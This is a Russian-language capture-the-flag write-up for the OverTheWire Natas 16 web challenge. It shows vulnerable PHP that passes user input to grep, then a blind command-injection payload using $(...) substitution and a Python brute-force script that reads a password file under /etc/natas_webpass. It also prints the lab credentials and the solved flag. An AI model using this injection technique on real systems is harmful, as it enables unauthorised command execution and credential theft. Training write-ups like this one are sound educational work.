



# NATAS_16 WriteUp
:computer: Host: http://natas16.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas16  
:key: Password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

:triangular_flag_on_post: Flag: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
 
- [NATAS\_16 WriteUp](#natas_16-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом


Ввод слова **test** возвращает вот такую реакцию


Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
Веб-приложение фильтрует символы, с помощью которых мы могли бы внудрить свою команду на исполнение (по аналогии с natas10)
```php
if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    }
```

Значит, необходимо найти способ заставить команду grep прочесть файл с флагом (в данной лабораторной флаг находится в **/etc/natas_webpass/natas17**)

Сделать это можно, если встроить внутрь ещё одну команду bash с помощью конструкции ``$(command)`` методом брутфорса  
Будем ориентироваться на два состояния веб-приложения - **обычную** выдачу и **пустую** выдачу  

Для начала подберём удобное слово, с которым легко будет определить **обычную** выдачу  
Таким словом стала строка ``payload`` - всего два слова в выдаче!


Перебор планируется за счёт следующей конструкции
```bash
grep -i payload$(grep ^$char /etc/natas_webpass/natas17) dictionary.txt
```

Перебирая \$char мы, в случае подбора очередного символа, на выходе внутренней команды получим строку      
Эта строка прибавится к слову payload, и поиск по **dictionary.txt**  гарантировано выдаст пустой список  
А в случае, если символ ``$char`` не был угадан, к слову **payload** не прибавится ничего, и выдача получится **обычной**

Нам потребуется скрипт, который выполнит за нас перебор
```python
import requests

url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V")
alph = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
flag = ""

while len(flag) < 32:
    for char in alph:
        data = {"needle":f"payload$(grep ^{flag}{char} /etc/natas_webpass/natas17)","submit":"Search"}
        r = requests.get(url=url, params=data, auth=auth)
        if "payload's" not in r.text:
            flag += char
            print(flag)
            break
```


Полученный флаг: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
